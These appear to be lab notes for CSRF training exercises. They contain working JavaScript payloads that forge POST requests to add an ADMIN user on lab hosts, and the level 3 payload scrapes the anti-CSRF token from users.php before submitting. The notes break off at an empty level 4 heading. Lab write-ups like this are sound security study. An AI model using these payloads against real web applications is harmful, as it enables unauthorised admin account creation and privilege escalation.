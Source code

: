 
## LAB CSRF

### Warm-up: CSRF level 1

warm-up add the user did with BURP

### Easy: CSRF level 2

```js
<script type="text/javascript">
var url = "http://2.csrf.labs/add_user.php"
var params = "name=talent&surname=joao&email=talent%40hacker.site&role=ADMIN&submit="
var csrf = new XMLHttpRequest();
csrf.open("POST", url, true);
csrf.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
csrf.send(params);
</script>
```

### Easy: CSRF level 3

```js
test2
<script type="text/javascript">
function addUser(token) {
    var url = "http://3.csrf.labs/add_user.php";
    var param = "name=Malice&surname=Smith&email=malice%40hacker.site&role=ADMIN&submit=&CSRFToken=" + token; 
    var CSRF = new XMLHttpRequest();
    CSRF.open("POST",url,true);
    CSRF.withCredentials = 'true';
    CSRF.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    CSRF.send(param);
}
// Extract the token
var XHR = new XMLHttpRequest();
XHR.onreadystatechange = function() { 
    if (XHR.readyState == 4 ) {
        var htmlSource = XHR.responseText; // the source of users.php
        // Extract the token 
        var parser = new DOMParser().parseFromString(htmlSource, "text/html");
        var token = parser.getElementById('CSRFToken').value;
        addUser(token);
    }
}
XHR.open('GET', 'http://3.csrf.labs/users.php', true);
XHR.send();
```

### Medium: CSRF level 4
